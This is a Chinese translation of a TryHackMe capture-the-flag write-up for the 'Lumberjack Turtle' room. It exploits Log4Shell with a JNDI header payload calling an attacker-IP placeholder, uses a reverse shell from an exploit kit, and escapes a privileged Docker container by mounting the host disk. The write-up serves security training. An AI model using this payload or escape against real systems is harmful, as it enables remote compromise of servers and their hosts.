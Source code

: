 # 伐木工人海龟——报道

> 原文：<https://infosecwriteups.com/lumberjack-turtle-writeup-29b647e9b694?source=collection_archive---------0----------------------->

**难度**:中等房间
**描述**:没有原木，就没有犯罪……伐木工人这么说。

嘿，伙计们，这是 TryHackme 网站关于伐木工海龟房间的报道。

# 列举

# Nmap

## 网站(端口 80)

访问任何随机不存在的页面(`/test`)都会抛出 404 状态码这个错误。

![](img/3f545b0f40ae95664192280de89d8130.png)

访问`/error`给错误信息中的`status=999`500 状态码。

![](img/e54b00318ce632efccd29213419f2ff1.png)

运行递归目录破坏，我们有`/~logs/log4j`目录。

![](img/aa937bf07fc0b25d5c4b1f108704a8a4.png)

响应头`X-THM-HINT: CVE-2021-44228 against X-Api-Version`提示我们必须使用`X-Api-Version`头。

此外，CVE-2021–44228 是影响 Apache 的 Java 日志库 Log4j 的 Log4Shell 漏洞，使得攻击者能够在受影响的系统上远程运行命令。它得到了 10.0 的 CVSS 评分，这是可能的最高分。

![](img/299fc2a201fb68ac012176caa9729a65.png)

# 剥削

尝试向服务器发送一个带有`X-Api-Version: ${jndi:ldap://ATTACKER-IP:3333}`的请求。另外，在端口 3333 上运行一个 netcat 监听器。netcat 监听器将监听来自受害机器的连接:

![](img/b3c306a3e89bbf299a3b353fa513c919.png)

这样，我们可以确认 web 应用程序确实容易受到攻击。

接下来，`git clone`github 的 [JNDI 漏洞工具包](https://github.com/pimps/JNDI-Exploit-Kit)。遵循 github repo 中 README.md 文件上的说明。现在，将目录更改为 JNDI 漏洞利用工具包目录，并运行漏洞利用:

base64 有效负载是一个简单的反向 shell，它在端口 9999 连接回我们的攻击者机器。

![](img/4ba9f5db63e300765f55cc10cc7b1053.png)

从上面显示的输出中获取漏洞 URL 并发送请求。

确保在端口 9999 上运行一个监听器。

# 权限提升

我们得到一个壳作为根。但它实际上是在 docker 容器中。

![](img/2cbf1e17fed3b2d797c7b2d0b62e3331.png)

flag1 位于`/opt/.flag1`运行 linpeas，我们可以看到特权模式被启用。它允许我们从 docker 容器中访问主机文件系统。我们只需安装磁盘。

![](img/a9207a4cecc2bf6c1281aa2555a99f00.png)

用`fdisk -l`检查系统中的磁盘

![](img/74d84758381a5c6f92cd9865c872d14e.png)

主机在`/dev/xvda1`使用磁盘。在`/mnt/host`处创建一个文件夹并安装驱动器:

```
mount /dev/xvda1 /mnt/host
```

可以从`/mnt/host`访问主机文件系统。使用`chroot /mnt/host`改变根文件系统。创建一个 SSH 密钥对，并使用`id_rsa`文件获得一个 SSH 会话:

登录，你会看到一个目录`/root/...`。根标志在此文件夹中。

![](img/d703745bb658ead7aaffed0b22a8b2e9.png)

黑客快乐！

*原载于【https://github.com】[](https://github.com/xplo1t-sec/CTF/blob/master/TryHackMe/LumberjackTurtle/README.md)**。***

# *🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)*

*[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)*